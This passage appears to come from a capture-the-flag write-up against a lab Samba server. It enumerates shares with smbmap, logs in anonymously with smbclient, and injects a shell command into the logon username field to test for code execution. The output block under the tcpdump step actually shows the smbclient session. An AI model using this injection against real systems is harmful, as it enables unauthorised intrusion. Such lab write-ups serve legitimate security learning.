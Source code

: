 ```rb

end
```

Let's use smbmap to access the SMB server

`smbmap -H 10.129.115.59`

- -H: HOST IP of host

```output
    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com   
                     https://github.com/ShawnDEvans/smbmap

                                                                                                    
[+] IP: 10.129.115.59:445	Name: 10.129.115.59       	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	tmp                                               	READ, WRITE	oh noes!
	opt                                               	NO ACCESS	
	IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
```

Now we get back the following result.
Interesting in we have to read, and write access to the *tmp* folder.

After collecting the information Let's use smbclient to access the SMB server.

`smbclient --no-pass //10.129.115.59/tmp`

```output
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> 
```

Let's make sure there is a response. For this, we use tcpdump tool.

Now we use the tool *tcpdump* and wait for a response 

`tcpdump -i tun0 icmp -n`

```output
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> logon "/=`nohup ping -c 1 10.10.16.11`"
Password: 
session setup failed: NT_STATUS_LOGON_FAILURE
```
